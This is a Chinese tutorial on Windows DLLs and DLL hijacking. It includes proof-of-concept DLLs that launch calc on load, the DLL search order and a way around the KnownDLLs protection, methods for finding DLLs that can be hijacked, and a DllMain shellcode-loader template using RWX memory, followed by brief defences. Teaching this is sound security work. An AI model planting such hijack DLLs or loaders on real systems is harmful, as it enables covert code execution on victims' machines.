




# DLL是什么

动态链接库(Dynamic-Link-Library,缩写dll), 是微软公司在微软视窗操作系统中实现共享函数库概念的一种实现方式。

所谓动态链接,就是把一些经常会共享的代码(静态链接的[OBJ](https://zh.wikipedia.org/w/index.php?title=OBJ&action=edit&redlink=1)程序库)制作成DLL档,当可执行文件调用到DLL档内的函数时，Windows操作系统才会把DLL档加载进存储器内，DLL档本身的结构就是可执行档，当程序有需求时函数才进行链接。通过动态链接方式，存储器浪费的情形将可大幅降低。静态链接库则是直接链接到可执行文件

Linux下动态库名字一般是:`libxxx.so` window则是: `.dll`、`.OCX`(..etc)

linux最常见的就是libc.so

# DLL使用

用visual stdio创建一个dll项目，默认的dllmain.cpp代码如下

```cpp
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

每个DLL都可以有一个入口点函数DllMain,系统会在不同时刻调用此函数。来写一个msg函数

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <Windows.h>
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

void msg() {
    MessageBox(0, L"Dll-1 load  succeed!", 0, 0);
}
```

作用的弹窗显示`Dll-1 load  succeed!`

接下来在解决方案资源管理下的项目下打开头文件中的`framework.h`来导出msg函数



然后生成`Dll1.dll`，创建一个新的cpp项目来引入这个dll

```
#include <iostream>
#include <Windows.h>
using namespace std;

int main()
{
    // 定义一个函数类DLLFUNC
    typedef void(*DLLFUNC)(void);
    DLLFUNC GetDllfunc = NULL;
    // 指定动态加载dll库
    HINSTANCE hinst = LoadLibrary(L"Dll1.dll");
    if (hinst != NULL) {
        // 获取函数位置
        GetDllfunc = (DLLFUNC)GetProcAddress(hinst, "msg");
    }
    if (GetDllfunc != NULL) {
        //运行msg函数
        (*GetDllfunc)();
    }
}
```



成功加载

也可以直接写到入口函数，加一个执行calc命令的语句

```
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdlib.h>
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:system("calc");
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```



运行cpp加载后弹出计算器

也可以直接将导出函数和函数写到dllmain.cpp中

```
#include "pch.h"
#include <stdlib.h>

extern "C" __declspec(dllexport) void Scintilla_DirectFunction();

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

void Scintilla_DirectFunction()
{
    system("calc");
}
```

# DLL劫持漏洞

如果在进程尝试加载一个DLL时没有并没有**指定DLL的绝对路径**，那么Windows会尝试去按照顺序搜索这些特定目录来查找这个DLL,如果攻击者能够将恶意的DLL放在优先于正常DLL所在的目录，那么就能够欺骗系统去加载恶意的DLL

**DLL路径搜索目录顺序**

1.程序所在目录

2.程序加载目录（SetCurrentDirectory）

3.系统目录即 SYSTEM32 目录

4.16位系统目录即 SYSTEM 目录

5.Windows目录

6.PATH环境变量中列出的目录

从Windows7 之后, 微软为了更进一步的防御系统的DLL被劫持，将一些容易被劫持的系统DLL写进了一个注册表项中，**那么凡是此项下的DLL文件就会被禁止从EXE自身所在的目录下调用**，而只能从系统目录即SYSTEM32目录下调用。注册表路径如下：

```sql
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs
```



在win7及win7以上系统增加了KnownDLLs保护，需要在如下注册表下添加dll才能顺利劫持：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SessionManager\ExcludeFromKnownDlls
```

# 如何劫持

其实我们需要做的就是查看一个程序加载了哪些dll，如何哪些dll可以劫持替换

手动的话就可以使用process monitor，使用如下过滤器过滤内容

```
Include the following filters:
Operation is CreateFile
Operation is LoadImage
Path contains .cpl
Path contains .dll
Path contains .drv
Path contains .exe
Path contains .ocx
Path contains .scr
Path contains .sys

Exclude the following filters:
Process Name is procmon.exe
Process Name is Procmon64.exe
Process Name is System
Operation begins with IRP_MJ_
Operation begins with FASTIO_
Result is SUCCESS
Path ends with pagefile.sys
```

自动化，可以使用rattler去寻找可以劫持的dll，也可以用windbg导出加载的module配合chkDllHijack进行验证

还有一个AheadLib.exe工具来负责导出cpp

劫持后就可以添加代码，不光是执行命令，写入shellcode也是可以的

```
入口函数

BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved)

{

        char ShellCode[] = "";

        void* exec = VirtualAlloc(0, sizeof ShellCode, MEM_COMMIT, 
PAGE_EXECUTE_READWRITE);

        memcpy(exec, ShellCode, sizeof ShellCode);

        ((void(*)())exec)();

        if (dwReason == DLL_PROCESS_ATTACH)

        {

               DisableThreadLibraryCalls(hModule);

        }

        else if (dwReason == DLL_PROCESS_DETACH)

        {

        }

        return TRUE;

}

```

# 防御

- 调用第三方DLL时,使用绝对路径
- 调用API SetDllDirectory(L”“)将当前目录从DLL加载顺序中移除


参考链接：

https://sh1yan.top/2019/06/16/The-Principle-and-Practice-of-DLL-Hijacking/#/

https://xz.aliyun.com/t/12365

https://www.anquanke.com/post/id/225911#/h3-13

https://xz.aliyun.com/t/11711